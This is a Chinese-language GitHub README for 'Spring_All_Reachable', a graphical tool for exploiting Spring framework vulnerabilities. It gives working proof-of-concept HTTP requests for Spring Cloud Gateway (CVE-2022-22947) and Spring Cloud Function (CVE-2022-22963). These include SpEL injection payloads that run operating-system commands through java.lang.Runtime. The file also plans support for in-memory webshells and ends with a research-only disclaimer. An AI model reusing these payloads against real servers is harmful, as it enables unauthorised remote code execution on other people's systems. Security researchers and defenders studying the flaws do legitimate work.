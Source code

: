 <h1 align="center" >Spring_All_Reachable</h1>
<h3 align="center" >一款针对Spring漏洞框架进行快速利用的图形化工具</h3>
 <p align="center">
    <a href="https://github.com/savior-only/Spring_All_Reachable"></a>
    <a href="https://github.com/savior-only/Spring_All_Reachable"><img alt="Spring_All_Reachable" src="https://img.shields.io/badge/Spring_All_Reachable-green"></a>
    <a href="https://github.com/savior-only/Spring_All_Reachable"><img alt="Forks" src="https://img.shields.io/github/forks/savior-only/Spring_All_Reachable"></a>
     <a href="https://github.com/savior-only/Spring_All_Reachable"><img alt="Release" src="https://img.shields.io/github/release/savior-only/Spring_All_Reachable.svg"></a>
  <a href="https://github.comsavior-only/Spring_All_Reachable"><img alt="Stars" src="https://img.shields.io/github/stars/savior-only/Spring_All_Reachable.svg?style=social&label=Stars"></a>
     <a href="https://github.com/savior-only"><img alt="Follower" src="https://img.shields.io/github/followers/savior-only.svg?style=social&label=Follow"></a>
     <a href="https://github.com/savior-only"><img alt="Visitor" src="https://visitor-badge.laobi.icu/badge?page_id=savior-only.Spring_All_Reachable"></a>
	</p>





# 📝 TODO

* Spring Core RCE
* 支持更多类型内存马
* 支持内存马密码修改

........



# :clapper:使用方法

### Spring Cloud Gateway命令执行（CVE-2022-22947）

#### 漏洞描述

Spring Cloud Gateway存在远程代码执行漏洞，该漏洞是发生在Spring Cloud Gateway应用程序的Actuator端点，其在启用、公开和不安全的情 况下容易受到代码注入的攻击。攻击者可利用该漏洞通过恶意创建允许在远程主机上执行任意远程请求。


#### 漏洞影响

​	VMWare Spring Cloud GateWay 3.1.0  
​	VMWare Spring Cloud GateWay >=3.0.0，<=3.0.6  
​	VMWare Spring Cloud GateWay <3.0.0

#### 漏洞poc

```
POST /actuator/gateway/routes/hacktest HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 328

{
  "id": "hacktest",
  "filters": [{
    "name": "AddResponseHeader",
    "args": {"name": "Result","value": "#{new java.lang.String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"id\"}).getInputStream()))}"}
  }],
"uri": "http://example.com",
"order": 0
}
```

```
POST /actuator/gateway/refresh HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


```

```
GET /actuator/gateway/routes/hacktest HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


```

```
DELETE /actuator/gateway/routes/hacktest HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close


```

```
POST /actuator/gateway/refresh HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


```

#### 工具使用

![image-20230601131042060](./assets/image-20230601131042060.png)

![image-20230601131127171](./assets/image-20230601131127171.png)

![image-20230601134110151](./assets/image-20230601134110151.png)





### Spring Cloud Function SpEL 远程代码执行 (CVE-2022-22963)

#### 漏洞描述

Spring Cloud Function 是Spring cloud中的serverless框架。

Spring Cloud Function 中的 RoutingFunction 类的 apply 方法将请求头中的“spring.cloud.function.routing-expression”参数作为 Spel 表达式进行处理，造成 Spel 表达式注入漏洞。

攻击者可通过该漏洞执行任意代码。

#### 漏洞影响

org.springframework.cloud:spring-cloud-function-context（影响版本：3.0.0.RELEASE~3.2.2）

#### 漏洞poc

```
POST /functionRouter HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("touch /tmp/success")
Content-Type: text/plain
Content-Length: 4

test
```

#### 工具使用

![image-20230601130120697](./assets/image-20230601130120697.png)

![image-20230601130234458](./assets/image-20230601130234458.png)





# :book: 参考项目

[https://starchart.cc/0x727/SpringBootExploit](https://github.com/0x727/SpringBootExploit)

[https://github.com/whwlsfb/cve-2022-22947-godzilla-memshell](https://github.com/whwlsfb/cve-2022-22947-godzilla-memshell)





# :b:免责声明

​	此工具仅作为网络安全攻防研究交流，请使用者遵照网络安全法合理使用！ 如果使用者使用该工具出现非法攻击等违法行为，与本作者无关！



![as](https://starchart.cc/savior-only/Spring_All_Reachable.svg)
